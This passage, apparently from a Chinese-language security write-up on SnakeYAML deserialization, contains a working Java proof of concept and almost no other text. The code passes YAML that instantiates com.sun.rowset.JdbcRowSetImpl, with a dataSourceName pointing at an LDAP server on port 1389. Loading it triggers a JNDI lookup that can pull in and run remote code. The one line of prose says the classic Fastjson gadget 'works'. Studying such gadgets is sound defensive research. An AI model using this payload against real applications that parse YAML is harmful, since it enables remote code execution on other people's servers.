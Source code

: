 <div align=center><img src="./images/19.png"></div>

### JdbcRowSetImpl
#### 漏洞演示
利用一下`Fastjson`中经典的`JdbcRowSetImpl`, 成功打通.

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 4:39 下午
 */
public class JdbcRowSetImplExploit {

    public static void main(String[] args) {

        String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://127.0.0.1:1389/dx2zdj\"\n autoCommit: true";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

<div align=center><img src="./images/7.png"></div>
